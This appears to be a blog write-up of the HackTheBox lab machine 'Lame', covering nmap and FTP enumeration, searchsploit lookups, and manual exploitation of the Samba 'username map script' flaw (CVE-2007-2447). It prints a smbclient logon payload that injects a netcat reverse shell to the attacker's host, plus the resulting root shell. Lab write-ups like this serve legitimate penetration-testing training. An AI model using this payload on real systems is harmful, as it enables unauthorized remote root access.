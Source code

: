 ```yaml
---
layout: post
title:  "HackTheBox - Lame Writeup"
categories: [HackTheBox]
tags: []
draft: false
---
```


# Introduction

This is a writeup for the machine "Lame" (10.10.10.3) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 03:04 GMT
Nmap scan report for 10.10.10.3
Host is up (0.026s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-01-24T19:05:12-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see, we have a few ports open here, however, ftp grabs my attention straight away as we have a line `ftp-anon: Anonymous FTP login allowed (FTP code 230)` this basically means we can login with the username `anonymous` and pretty much any password, so let's try logging in with FTP and seeing what we can find.

### FTP

In order to login anonymously we can just use `ftp 10.10.10.3` then we will be prompted for a username, it is important you use `anonymous` as the username and you can just press enter for the password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:linxz): anonymous
331 Please specify the password.
Password:
230 Login successful.
```  

As you can see we can login just fine with this, now let's take a look around and try to find some files, etc. Firslty we'll do a pwd to see where we are on the file system and see if we have any files in our current directory.

```
ftp> 
ftp> pwd
257 "/"
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

So, looks like this is pretty empty so I guess this is not the correct attack route I suppose. So we'll focus on the Samba side of things now, it is worth noting, that vsFTPD 2.3.4 has a backdoor vulnerability, I did not mention this before but if you use `searchsploit` and `vsftpd 2.3.4` you will see the vulnerability I am talking about.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                             | exploits/unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------------- ----------------------------------
```

However, what we just attempted is basically doing exactly what the Metasploit module would do so we don't need to use the Metasploit module. The point is, it is always a good habit to do a Searchsploit on the versions of software.

### Samba

We know that Samba is running so let's try to attack this - as I mentioned it is always a good idea to use Searchsploit on version numbers you get, in this case from our nmap scan we know that the version is `3.0.20-Debian` so we'll do a Searchsploit on this, dropping the `debian` though else Searchsploit might not find it.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                   | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                              | exploits/linux/remote/7701.txt
```

There also appears to be a Remote Heap Overflow here however, we won't try that unless the Username map script does not work, this is because it will be a little harder to actually exploit so we'll stick with the "Username Map Script" exploit first. Interetingly, I already knew about this exploit as I [made a post](https://linxz.co.uk/vulnerabilities/2018/11/14/Samba-username-map-script.html) about it previously.

## Exploitation

So, it looks like this box is vulnerable to CVE2007-2447. Let's exploit this, however, we're not going to use Metasploit as this is really easy to exploit manually and will help us with concepts such as reverse shells & just getting used to the exploitation process if we don't have Metasploit available.

Firstly we need to see what shares are available, we can do this using `smbclient -L //10.10.10.3/`

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient -L //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

As you can see in the above, we have `opt` & `tmp` let's try and connect to `tmp` with an anonymous login, in order to do this you can just use `smblclient //10.10.10.3/tmp` and hit enter to send a blank password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```

Now that we've logged into the share, we want to actually exploit this vulnerability, if you want to understand how it works you can go and read my post that I linked earlier as I'm not going to explain the exploit here.

So firstly we're going to use netcat to create a listener on our device, this can be done with `nc -nvlp 4444` once we have the listener running we're going to send the following payload into the device.

```
smb: \> logon "./=`nohup nc 10.10.14.2 4444 -e /bin/bash`"
Password:
```

If you hit enter at the password prompt you should then see a connection back into your listener, you now have a shell! It is time for privilege escalation! Well, usually it would be time for privilege escalation however we actually get a root account straight away on this box so we don't need to do any kind of privilege escalation.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ netcat -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.10.3 43316 received!
whoami
root
```

Now we can just go and get the user flag from the users desktop and the root flag, submit them and we're done with the box! As I said, if you'd like to understand how the exploit works a little more you can go and read my post on it!
